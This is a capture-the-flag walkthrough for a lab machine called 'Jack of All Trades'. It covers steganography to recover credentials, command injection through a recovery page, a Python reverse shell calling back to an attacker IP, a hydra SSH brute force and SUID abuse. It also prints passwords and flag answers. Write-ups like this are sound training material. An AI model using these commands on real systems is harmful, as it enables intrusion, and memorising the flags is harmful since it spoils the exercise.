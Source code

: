 # JACK OF ALL TRADE

## BASIC INFO
```
export IP=10.10.112.230

open port:
	22	http
	80	ssh
```


Found images on homepage with name stego.
Also a base64 encoded string which translates to the following.
```
Remember to wish Johny Graves well with his crypto jobhunting! His encoding systems are amazing! Also gotta remember your password: u?WtKSraq
```

Using steghide on stego.jpg returns creds.txt that says we're on the right path but wrong image.

Using steghide on header.jpg gives us cms.creds.
```
Username: jackinthebox
Password: TplFxiSHjY
```

On /recovery.php found a weird string. Not base64, maybe base32? Remember him mentioning Johny Graves on homepage before. Try searching for him.\
Johny Graves twitter.
```
encode msg with ROT13 then hex then base32
```

It just leads us back to homepage...

Log in on /recovery.php with the credentials we found with steghide.

It says give me cmd... RCE?\
/recovery.php?cmd=id really does print out the output of id.

Reverse shell time.
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.7.208",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

once we logged in, navigate to /.\
There's a jacks_password_list. Copy that down and use hydra to bruteforce ssh.

```
hydra -l jack -P passwords.txt -u ssh://$IP:80
```

ssh
```
username:jack
password:ITMJpGGIqg1jn?>@
```

Using scp to download user.jpg.`scp -P 80 jack@$IP:user.jpg .`

> - **User Flag**
>> securi-tay2020_{p3ngu1n-hunt3r-3xtr40rd1n41r3}


> - **Root Flat**
>> securi-tay2020_{6f125d32f38fb8ff9e720d2dbce2210a}

Exploiting the SUID file again. `find / -perm /4000 2>/dev/null` and we found strings can be run as root. `strings /root/root.txt` gives us the flag.
